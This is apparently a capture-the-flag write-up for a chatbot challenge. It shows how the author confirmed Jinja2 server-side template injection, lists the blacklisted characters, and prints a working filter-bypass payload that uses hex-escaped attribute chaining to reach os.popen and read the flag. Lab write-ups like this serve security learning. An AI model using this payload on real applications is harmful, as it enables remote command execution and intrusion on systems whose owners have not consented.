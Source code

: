 # Unintelligible-Chatbot

After realizing it was a SSTI chall after using `{{7*7}}` as input and getting 49 as output, I went for RCE but saw that it was blocking most of the common chars like `_ . [ ] join`. <br>

![image](https://github.com/user-attachments/assets/1db4d9d3-fca3-4358-952c-91002d6d95a8)

Some of these characters and words are blacklisted:
> '#' <br>
> % <br>
> [] <br>
> _ <br>
> config <br>
> dict <br>
> subclasses <br>

I then just ripped off the following payload from [PayloadAllThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---basic-injection).

```py
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat${IFS}flag')|attr('read')()}}
```
![image](https://github.com/user-attachments/assets/47109d42-037c-4f5a-9a6b-a251e0a1dbbc)

ls -> cat flag

## Flag

`flag{n07_4n07h3r_5571_ch4ll3n63}`

